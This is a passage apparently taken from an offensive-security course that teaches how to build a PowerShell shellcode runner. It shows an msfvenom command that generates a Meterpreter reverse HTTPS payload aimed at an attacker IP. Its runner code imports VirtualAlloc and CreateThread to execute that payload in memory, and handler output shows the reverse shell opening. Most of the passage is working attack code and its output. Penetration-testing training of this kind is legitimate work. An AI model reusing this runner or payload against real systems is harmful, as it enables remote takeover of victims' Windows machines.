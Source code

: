 > Listing 55 - Using P/Invoke and Add-Type to import VirtualAlloc and CreateThread

Note that we used _Here-Strings_ to assign a block of text to the _$Kernel32_ variable. We also created the import statements in the public _Kernel32_ class so we can reference it and compile it later.

Next we must supply the required shellcode, which we'll again generate with msfvenom. This time, we'll use the ps1 output format:

```
kali@kali:~$ msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f ps1
...
Payload size: 480 bytes
Final size of ps1 file: 2356 bytes
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89...
```

> Listing 56 - Creating shellcode in ps1 format

Now that the shellcode has been generated, we can copy the _$buf_ variable and add it to our code. We'll also start setting the API arguments as shown in Listing 57.

```
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60...

$size = $buf.Length

[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
```

> Listing 57 - Shellcode runner in PowerShell

We invoked the imported _VirtualAlloc_ call with the same arguments as before. These include a "0" to let the API choose the allocation address, the detected size of the shellcode, and the hexadecimal numbers 0x3000 and 0x40 to set up memory allocation and protections correctly.

We used the .NET _Copy_ method to copy the shellcode, supplying the managed shellcode array, an offset of 0 indicating the start of the buffer, the unmanaged buffer address, and the shellcode size.

Finally, we called _CreateThread_, supplying the starting address.

If we run this code from PowerShell ISE, we get a reverse shell. Nice.

```
[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.11; (UUID: pm1qmw8u) Staging x86 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (192.168.119.120:443 -> 192.168.120.11:49678)

meterpreter > 
```

> Listing 58 - Multi/handler catches Meterpreter shellcode executed by PowerShell
